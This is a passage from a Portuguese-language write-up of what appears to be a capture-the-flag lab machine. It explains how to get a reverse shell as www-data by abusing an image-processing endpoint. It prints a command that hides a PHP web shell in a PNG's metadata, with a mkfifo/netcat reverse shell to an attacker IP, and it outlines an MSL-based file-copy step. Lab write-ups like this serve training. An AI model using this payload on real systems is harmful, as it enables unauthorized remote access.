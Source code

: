 ## Reverse Shell com www-data

No seguinte endpoint devemos usar dois parâmetro, path e effect e o método POST.

![image](/assets/img/post/intentions/19.png)

Primeiro, precisamos criar uma imagem com um web shell, já que o MSL permite apenas trabalhar com imagens.

```bash
convert xc:red -set 'Copyright' '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.10 9001 >/tmp/f");?>' shell.png
```

Segundo, vamos criar um arquivo MSL que copiará esta imagem do nosso servidor HTTP para um diretório web gravável.
Sabendo disso no próprio burp vamos fazer algumas alterações para conseguir uma reverse shell, com base no artigo que encontramos no google.
